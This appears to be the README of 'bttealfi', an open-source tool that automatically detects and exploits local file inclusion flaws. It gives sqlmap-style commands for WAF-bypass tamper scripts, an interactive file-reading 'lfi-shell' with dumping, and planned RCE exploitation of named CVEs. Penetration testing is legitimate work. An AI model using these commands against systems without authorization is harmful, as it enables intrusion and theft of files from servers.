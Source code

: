 本專案採用 GNU 通用公共授權 v2.0 (GPLv2) 授權。
詳情請參閱"LICENSE.txt"文件。

# bttealfi
![](lib/data/img/logo.png)

bttealfi 是一款開源滲透測試工具，可自動偵測並利用LFI漏洞，有豐富的參數，他使用一些內文檢測技術來嘗試挖掘潛在弱點，並且使用了與sqlmap相似的參數，如果滲透測試人員非常了解LFI弱點，您可以利用CVE-2024-4577來列舉文件(如果因WAF導致無法RCE)，或者具有SQL注入到LFI的權限，此工具可節省部分時間在列舉或下載文件，使其進一步洩漏目標資訊與弱點。

# 截圖
![](lib/data/img/bttealfi_screenshot.png)

# 安裝

`git clone https://github.com/BTtea/BTteaLFI.git`

僅支援 Python 3.x 版本

# 使用

`python bttealfi.py -h`

* 基本參數，注入點請用'*'標記

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch`

  * POST

    `python bttealfi.py -u "http://target/vuln.php" --data "page=*" --batch`
  
  * JSON

    `python bttealfi.py -u "http://target/vuln.php" --data '{"page":"*"}' --batch`

* 清除成功注入紀錄

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch --flush-session`

* 你可以加上 -v 參數來設定顯示的訊息詳細內容 [0-6]

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3`

* 你可以透過參數--move來設置路徑移動的深度，預設為5

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --move 5`

  如果你已經知道路徑深度，不想遍歷，可以使用--depth-path

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --depth-path 8`

* 你可以使用--test-skip 來指定提示訊息來跳過不想測試的負載，例如info中出現passwd或relative path access的訊息

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --test-skip "passwd,relative path access"`

* 你可以透過新增前後綴來自定義注入的payload

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --prefix "test/" --suffix "%00"`

* 如果目標存在WAF或者過濾器，可以使用參數 --tamper 來飲用以定義的繞過腳本，你也可以自己根據規則撰寫並使工具引用，如須繞過多種規則也可以將腳本用逗號隔開一起使用(腳本轉換使用先進先出)

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --tamper dotslashobfuscate,base64encode`

* 當你成功利用目標並列出payload時，可以使用 --lfi-shell 參數來方便列舉目標系統上的檔案

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --lfi-shell`

  如果目標的回應訊息太多多餘資訊，影響原本獲取的文件內容，可配合使用 --detect-prefix 與 --detect-suffix 來指定要捕捉的內容範圍

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --lfi-shell --detect-prefix "內容前綴" --detect-suffix "內容後綴"`

  如果不需要顯示內容，或者你可能只是要下載一些二進制文件，可以配合使用 --dump 參數來將輸入的檔案自動儲存至本地

  `python bttealfi.py -u "http://target/vuln.php?page=*" --batch -v 3 --lfi-shell --dump`


# 心得筆記
sqlmap真的是一款完美且優秀的工具，使我在滲透上的工作變的便利且快速，然而卻沒有一款針對LFI的自動化工具真正讓我覺得好用，並且我也厭倦了每一次發現LFI弱點都需要重新設計利用腳本，因此，我開啟的這個專案並根據自身經驗，參考sqlmap上的一些運作行為，來嘗試將LFI利用武器化，而我認為不直接參考sqlmap程式碼是我給自己的一種挑戰，每完成一個功能便越來越覺得sqlmap是一個真正厲害且優雅的工具，然而此專案並非我預期的結果，有許多我想實現但尚未實作進去的功能(皆因自身程式設計經驗不足所導致後期程式碼難以維護)，事實上，我將計畫準備進行第四次重構😉。


# 未來開發目標
* 重構程式碼並將可以模組化的功能以及冗長的寫法進行優化
* 新增4096(linux)與256(windows)後綴截斷測試技術
* 新增參數 --phpinfo
* 新增關鍵參數 --os-shell
* --os-shell功能衍伸
  * 可根據所有已檢測到的技術進行每種技術的RCE利用
  * 新增pearcmd.php的偵測與利用
  * 新增CVE-2012-1823的偵測與利用
  * 新增CVE-2024-4577的偵測與利用
  * 新增CVE-2024-2961的偵測與利用
  * 新增phpinfo.php的條件競爭利用
  * 新增Session Upload Progress的條件競爭利用
